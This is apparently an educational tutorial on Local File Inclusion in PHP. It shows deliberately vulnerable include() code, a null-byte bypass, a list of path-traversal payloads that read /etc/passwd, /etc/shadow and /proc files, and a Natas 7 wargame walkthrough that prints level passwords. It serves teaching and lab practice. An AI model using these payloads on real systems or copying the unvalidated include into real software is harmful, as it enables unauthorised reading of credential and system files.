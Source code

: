 # Local File Inclusion

 > Local File Inclusion (also known as LFI) allows an attacker to include files in server-side through the web browser. File inclusions are part of every leading server-side scripting language across the internet.LFI is commonly found to affect web applications that rely on a scripting runtime. This occurs primarily due to a bad input validation mechanism, wherein the user’s input is passed to the file include commands without proper validation.

## Impact
A successful LFI may result in compromise of the system, data leakage etc. The attacker can read, write, download files and can also run arbitrary codes with privileges of the web server.

### Local file inclusion in PHP:

Consider an example as follows where we can apply this attack.
http://example.com/abc.php?file=input.txt
The file parameter will be taken and that file will be included.
```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```
An attacker may give malicious input for the "file" parameter which may give unauthorized files in that directory, he can also traverse the directories by using characters like "../".He can access the user credentials by giving input as "../../../../etc/passwd".In some cases where the file extension is added by default, we can avoid it by adding ***null byte terminator*** " %00".Any character after this special character will be ignored.

Consider the following code which includes file with default extension ".php"
```php
<?php
“include/”.include($_GET[‘testfile’].”.php”);
?>
```

by giving file=../../../../etc/passwd%00 we can access the file by passing the ".php" extension.

An attacker can also download files by changing the file names. For example
<br>URL: example/?download=welcome.pdf
</br>The attacker may change the welcome.pdf to any other file such as passwords.txt,users.txt etc.


## Explore it yourself
Make a PHP file with the code given above and explore different possibilities of the vulnerability.
### Somepayloads :
- ../../../../etc/passwd/etc/issue
- ../../../../etc/passwd
- ../../../../etc/passwd/etc/shadow
- ../../../../etc/passwd/etc/group
- ../../../../etc/passwd/etc/hosts
- ../../../../etc/passwd/etc/motd
- ../../../../etc/passwd/etc/mysql/my.cnf
- ../../../../proc/self/environ
- ../../../../proc/version
- ../../../../proc/cmdline
- ../../../../proc/sched_debug
- ../../../../proc/mounts
- ../../../../proc/net/arp
- ../../../../proc/net/route
- ../../../../proc/net/tcp
- ../../../../proc/net/udp

# Let's try a challenge  
 NATAS 7 :
  - USERNAME : natas7
  - PASSWORD : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
  ![natas7](natas7.1.png)

The site is very simple only with two buttons, but once when you click on Home or About the URL changes as follows :

  ![natas7](natas7.2.png)</br>
  ![natas7](natas7.3.png)
 
 It looks like the PHP file is including the file given as page, when we check the source code we get the hint as  
 hint: password for webuser natas8 is in /etc/natas_webpass/</br></br>
  ![natas7](natas7.4.png)
  
  So, let's try to include that file in the URL 
 URL : index.php?page=/etc/natas_webpass/natas8
On including this file we get the password for the next level on the screen </br></br>
password : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</br></br>
![natas7](natas7.5.png)
</br></br>
This is a basic example of Local file inclusion vulnerability.


